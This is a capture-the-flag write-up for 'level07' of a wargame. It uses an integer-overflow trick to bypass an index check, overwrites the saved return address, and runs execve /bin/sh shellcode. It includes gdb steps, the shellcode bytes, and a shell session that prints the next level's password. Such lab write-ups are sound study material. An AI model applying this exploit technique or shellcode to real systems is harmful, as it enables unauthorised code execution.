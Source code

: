 # Level07

This binary provides a simple number storing interface with three commands:		
- `store`, saves input number (int == 4 bytes) at input index (offset = index * 4).		
- `read`, display number stored at input index.		
- `quit`, exit the program.		

This effectively allows us to write anything we want on the stack 4 bytes at a time.		
We will overwrite the `EIP` save to take control of the execution flow and redirect to some **shellcode**.
However there is a `input index % 3` check that prevents us from saving at any index that is divisible by 3.		
To obtain the correct offset to save the value at, the program takes the input index and `shl eax, 2` which effectively multiplies by 4.		

To `store` at an index divisible by 3, we can simply input a value that will overflow to the true index value after the `shl eax, 2`. For example, to `store` at index 0, we can input `1073741824`. Debugging is easy with the `read` command.		

## Obtaining RET offset index
Lets find the `EIP` save relative to the start of the buffer:		
4 pushed registers (16)		
`and esp, 0xfffffff0` (alignment to 16 bytes, removed 12 bytes)		
size of stack: `0x1d0` (464)		
start of buffer: `esp+0x24` (36)		

`(464-36+16+12)/4 = 114`		

Find the integer that will overflow to `114 * 4`:		
`1073741824` (a quarter of UINT_MAX)		
`1073741824 + 114`		
`1073741938`		

We can use read command to check if we are storing at the correct index (it should segfault when we quit)		
```bash
./level07
Input command: store
 Number: 45
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 45
 Completed read command successfully
Input command: quit
Segmentation fault (core dumped)
```

## Injecting our **shellcode**
This program flushes environment variables and globals at the start of the execution disabling us from using them to store our **shellcode**. We will have to store the **shellcode** inside the databasei buffer.		
Lets find the address of our buffer:
```bash
gdb level07
b *0x08048795	; its address is loaded into ebx here
r
Breakpoint 1, 0x08048795 in main ()
p (void*)$ebx
$1 = (void *) 0xffffd504

printf %d 0xffffd504
4294956292
```
Because gdb adds runtime environment variables, the address of our buffer is innacurate, adding some '\90' instruction padding and increasing our address by 32 bytes is enough to reach it.		
`4294956292 + 32 = 4294956324`		

Our shellcode:		
```bash
\x90\x90\x90\x90 \x90\x90\x90\x90 \x90\x90\x90\x90 \x90\x90\x90\x90 		
\x6a\x0b\x58\x99 \x52\x68\x2f\x2f \x73\x68\x68\x2f \x62\x69\x6e\x89 		
\xe3\x31\xc9\xcd \x80 ; 21 bytes execv() shellcode + 16 bytes of padding		
```
All that is left is placing our shellcode inside the buffer:		
- divide into 4 bytes sections		
- reverse them		
- convert to decimal		
- store them starting from index 0 (using the overflow exploit)		

To save time debugging we can list in a file all the commands to be passed to the program. (see [ressource](https://github.com/PapaGateau/override/tree/master/level07/Ressources/inj07)).		

```bash

cat /tmp/inj07 - | ./level07

Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
